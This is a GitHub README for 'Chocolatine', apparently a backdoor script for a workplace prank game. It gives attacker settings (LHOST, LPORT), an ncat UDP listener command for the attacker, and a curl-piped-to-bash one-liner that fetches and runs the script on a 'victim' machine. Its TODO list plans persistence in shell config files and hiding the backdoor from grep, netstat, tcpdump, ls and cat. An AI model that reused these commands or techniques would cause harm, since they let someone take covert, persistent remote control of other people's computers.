 # Chocolatine :bread: :cookie: :doughnut:

## How to configure and use
You have to edit these lines with your IP, PORT and METHOD
```bash
LHOST="192.168.1.19"
LPORT="4242"
LMTHD="--udp"
```
The Attacker needs to open a listening connection with ncat
```bash
Attacker : ncat --udp -lvp 4242
```
Then you only have to run the following command on your victim
```bash
Victim   : curl http://example.com/chocolatine.sh|bash
```

## Rules
 - No lies
 - No backdoor in a git script
 - No network attack (MITM ...)
 - No word macro
 - No keylogger
 - No spoof mail
 - No personal datas, no leak !
 - No Deny of Service (if there is one, you need to pay the croissant)
 - After 7 days of tries, you will remove your backdoor
 - You won't recover any PLAIN passwords    
:warning: If there is a challenge, none of the above applied !


## TODO
 - :x: Fish Shell (~/.config/fish/config.fish)
 - :x: Hidding v1 (alias : grep -v $IP ,chocolatine )
 - :x: Hidding v2 (tcpdump , netstat, ls, cat (trick bad cat?), vim)
 - :x: File Exist : .bashrc, .zshrc
 - :x: Bug //croissant instead of /croissant
